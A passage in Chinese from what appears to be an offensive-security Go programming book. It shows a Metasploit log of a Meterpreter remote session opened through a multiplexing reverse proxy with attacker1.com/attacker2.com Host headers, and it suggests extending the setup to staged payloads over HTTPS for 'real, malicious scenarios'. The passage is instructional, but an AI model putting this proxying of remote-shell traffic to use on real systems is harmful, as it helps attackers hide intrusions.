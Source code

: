 ```
>
[*] http://10.0.1.20:10080 handling request from 10.0.1.20; (UUID: hff7podk) Redirecting stageless
connection from /pxS_2gL43lv34_birNgRHgL4AJ3A9w3i9FXG3Ne2-3UdLhACr8-Qt6QOlOw
PTkzww3NEptWTOan2rLo5RT42eOdhYykyPYQy8dq3Bq3Mi2TaAEB with UA 'Mozilla/5.0 (Windows NT 6.1;
Trident/7.0;
rv:11.0) like Gecko'
[*] http://10.0.1.20:10080 handling request from 10.0.1.20; (UUID: hff7podk) Attaching
orphaned/stageless session...
[*] Meterpreter session 1 opened (10.0.1.20:10080 -> 10.0.1.20:60226) at 2020-07-03 16:13:34 -0500
```

如果你使用 tcpdump 或 Wireshark 来检查目标为 10080 或 20080 端口的网络流量，你应该会看到你的反向代理是唯一与 Metasploit 监听器通信的主机。你还可以确认 `Host` 头部被正确地设置为 `attacker1.com`（对于 10080 端口的监听器）和 `attacker2.com`（对于 20080 端口的监听器）。

就这样，你完成了！现在，可以更进一步了。作为一个练习，我们建议你更新代码，使用分阶段的有效载荷。这可能带来额外的挑战，因为你需要确保两个阶段都能通过代理正确地路由。此外，尝试使用 HTTPS 而不是明文 HTTP 来实现。这将进一步加深你对代理流量的理解，并提高你在实际、恶意的场景中利用代理的能力。

### 总结

你已经完成了 HTTP 的学习旅程，在过去的两章中，你已经处理了客户端和服务器的实现。在下一章中，你将重点学习 DNS，这是一个同样对安全从业者非常有用的协议。事实上，你将接近通过 DNS 来复制这个 HTTP 多路复用的例子。
